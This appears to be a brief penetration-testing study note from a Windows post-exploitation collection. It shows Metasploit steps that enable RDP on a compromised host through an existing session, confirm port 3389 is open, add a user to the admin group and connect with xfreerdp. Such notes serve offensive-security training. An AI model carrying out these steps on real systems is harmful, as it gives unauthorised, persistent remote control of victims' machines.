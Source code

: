 ```yaml
---
up: "[[Windows Post Exploitation]]"
---
```


# Enabling RDP

- RDP is a proprietary GUI remote access protocol used to remotely connect and interact with a Windows system
- RDP is disabled by default
- Its authentication requires a legitimate user account on the target system as well as the user's clear text password

## Demonstration

```bash
> db_nmap -sV <ip>
> use post/windows/manage/enable_rdp
> set SESSION <id>
> run
# verify RDP is enabled
> db_nmap -sV <ip>
# port 3389 is now open
# create another user account
# add new user to admin group
$ xfreerdp /u:<user> /p:<pass> /v:<ip>
```
